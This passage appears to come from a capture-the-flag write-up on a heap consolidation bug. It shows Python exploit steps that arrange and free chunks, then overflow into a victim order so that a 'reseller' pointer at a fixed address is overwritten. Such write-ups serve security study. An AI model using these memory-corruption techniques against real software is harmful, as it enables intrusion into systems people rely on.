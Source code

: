 
Before we start, remember that at the end we'll have to allocate an order to trigger the overwrite of `reseller`, after having extensively corrupted chunks near the top chunk.
I don't really want to allocate from the top chunk in that situation, so let's allocate an order which we'll free at the end to reallocate another order without touching the top chunk (comment is index and size):

```python
add_order('X') # 1, 0x20
```

We'll start by allocating our three chunks, followed by the victim chunk:

```python
add_order('A'*46) # 2, 0x50
add_order('B'*46) # 3, 0x50
add_order('C')    # 4, 0x20
add_order('V')    # 5, 0x20
```

Now the heap layout (ignoring X) is:

```
| A 0x50 | B 0x50 | C 0x20 | V 0x20 |
```

Since consolidation is only forward, deallocating B before C won't consolidate them:

```python
remove_order(3)
remove_order(4)
```

And we reach the desired layout:

```
| A 0x50 | B 0x50 FREE | C 0x20 FREE | V 0x20 |
```

Let's unleash the bug by deallocating A:

```python
remove_order(2)
```

Now the layout is:

```
+0x00: | 0x110 FREE |
+0xf0:         | V 0x20 |
```

Using the formulas we derived earlier with the chosen _n_ and _m_, we know the offset between the note and the victim order is 0xE0.
Time to corrupt the victim order:

```python
RESELLER = 0x0804b06c
fake_order = 'A'*12 + p32(RESELLER-12)
add_order('A'*0xe0 + fake_order)
```
